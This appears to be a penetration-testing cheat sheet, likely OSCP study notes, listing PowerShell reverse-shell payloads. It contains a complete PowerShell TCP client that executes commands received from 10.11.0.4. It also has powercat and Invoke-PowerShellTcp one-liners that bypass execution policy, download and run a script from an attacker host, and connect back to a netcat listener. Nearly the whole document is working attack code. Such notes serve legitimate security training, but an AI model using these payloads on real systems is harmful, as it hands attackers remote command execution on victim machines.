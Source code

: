 # PowerShell

## PowerShell

#### On victim machine

```text
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```

## Powercat

#### Listener

Start netcat listener on your Kali

```text
nc -lvnp 9001
```

#### On victim machine 

```text
powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/oscp/exploitation/rev_shells/powershell/powercat/powercat.ps1'));powercat -c <IP> -p <Port> -ep"
```

#### Shortent

```text
powershell.exe -nop -ep bypass -c "iex (iwr http://<IP>/oscp/exploitation/rev_shells/powershell/powercat/powercat.ps1);powercat -c <IP> -p <PORT> -ep"
```

## Invoke-PowerShellTcp.ps1

#### Listener

Start netcat listener on your Kali

```text
nc -lvnp 9001
```

#### On victim machine 

```text
powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"
```

